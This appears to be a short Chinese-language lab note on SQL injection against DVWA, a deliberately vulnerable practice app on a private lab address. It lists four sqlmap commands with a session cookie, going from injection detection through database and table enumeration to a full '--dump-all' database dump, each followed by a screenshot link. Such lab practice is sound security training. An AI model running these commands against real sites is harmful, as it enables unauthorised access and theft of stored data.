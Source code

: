 ## SQL注入


```sqlmap -u "http://192.168.213.136/vulnerabilities/sqli/?id=1&Submit=%E6%8F%90%E4%BA%A4#" --cookie="security=low; PHPSESSID=blmgf8bl931863uc8rf70jbfv0" --batch```
![avatar](/src/static/img/zhuru1.png)


```sqlmap -u "http://192.168.213.136/vulnerabilities/sqli/?id=1&Submit=%E6%8F%90%E4%BA%A4#" --cookie="security=low; PHPSESSID=blmgf8bl931863uc8rf70jbfv0" --dbs --batch```
![avatar](/src/static/img/zhuru2.png)


```sqlmap -u "http://192.168.213.136/vulnerabilities/sqli/?id=1&Submit=%E6%8F%90%E4%BA%A4#" --cookie="security=low; PHPSESSID=blmgf8bl931863uc8rf70jbfv0" -Ddvwa --tables --batch```
![avatar](/src/static/img/zhuru3.png)


### 拖库 慎用


```sqlmap -u "http://192.168.213.136/vulnerabilities/sqli/?id=1&Submit=%E6%8F%90%E4%BA%A4#" --cookie="security=low; PHPSESSID=blmgf8bl931863uc8rf70jbfv0" -Ddvwa --dump-all --batch```
![avatar](/src/static/img/zhuru4.png)
![avatar](/src/static/img/zhuru5.png)


